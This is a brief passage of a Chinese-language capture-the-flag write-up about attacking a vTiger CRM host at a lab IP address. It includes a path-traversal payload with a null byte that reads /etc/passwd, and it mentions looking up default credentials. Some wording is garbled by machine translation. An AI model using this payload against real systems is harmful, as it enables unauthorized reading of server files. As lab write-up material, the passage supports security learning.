 如果你不能阅读任何东西，你可以通过检查源文件来美化文件

![Screenshot-2019-09-03-at-00.41.34](img/dd5a598de138c73abf86216e8d6ed8ae.png)

view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00

我还对 vTiger 的默认凭证做了一些研究，并找到了一些关于安装 T2 vTiger 星号连接器 T3 的文档

![Screenshot-2019-09-01-at-20.44.49](img/7a4a5fddba415c20da0f0d64fb0969c6.png)

[https://www.vtiger.com/docs/asterisk-integration](https://www.vtiger.com/docs/asterisk-integration)
